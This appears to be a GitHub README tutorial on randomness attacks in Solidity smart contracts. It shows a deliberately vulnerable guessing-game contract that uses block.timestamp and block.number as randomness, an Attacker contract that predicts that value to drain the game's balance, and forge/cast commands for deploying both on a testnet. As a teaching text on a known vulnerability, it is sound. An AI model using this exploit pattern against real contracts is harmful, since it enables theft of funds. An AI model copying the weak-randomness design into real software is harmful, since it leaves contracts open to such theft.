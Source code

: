 # Randomness-attack- 
## 1- What is Randomness?
run same code get diffirent result

## 2- what is Determinisitic System?
   * Same Input == Same Outbut
   * every node must agree on the same state
    
  ```solidity
 function test(uint256 a) public pure returns(uint256){
      return a*2;
   }          // same input same output
   
```
 ![Image](https://github.com/user-attachments/assets/266e1bd8-ba9d-4746-a793-4fb934ed254b)


## 3- why we need randomness in web3
   * Games NFT (Non Fungible Tokens  ) [ERC721](https://docs.openzeppelin.com/contracts/3.x/erc721)  Choose Winner
   * 🏛️ DAO = Decentralized Autonomous Organization choose Member to Voting
   * AirDrops
   * Validatores , committes , nodes  proof of stake (ethereum2, polkadot ,Algorand)
   * Defi Decentralized Finance
     
# Example 01
Smart contract Game to guess number and win the game

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

contract Game {
    constructor() payable{

    }

    function play(uint256 guess) external{
        uint256 randomNumber = block.timestamp + block.number; 

        if(randomNumber == guess){
           payable(msg.sender). transfer(address(this).balance);        
        }
    }

}
```
Command to compile
```
forge compile
```
Command to deploy on sepolia
```
 forge create <contract path> --rpc-url <sepolia rpc>  --private-key <your private key> --value <charge contract with ethereum> --broadcast
```

Command to check Balance
```
cast balance 0xYourContractAddress --rpc-url <your rpc>
```

## Smart contract to attack the Game

```solidity

//SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

interface IGame{
        function play(uint256 guess) external;
    }

contract Attacker{
    IGame public game;  //store Games Address

    constructor(address GameContract) payable{
        game = IGame(GameContract);

    }

    function attack() external payable{
        uint predictNumber = block.timestamp + block.number;
        game.play(predictNumber);
    }
    receive() external payable {}

}
```
Command to compile
```
forge compile <contract path>
```
Command to deploy on sepolia
```
 forge create <contract path> --rpc-url <sepolia rpc>  --private-key <your private key>  --broadcast
```
Command to call function play

```
 cast send <contract address>  --rpc-url <your rpc> --private-key <your private key >   '<function name>'
```

Command to check Balance
```
cast balance 0xYourContractAddress --rpc-url <your rpc>
```



   

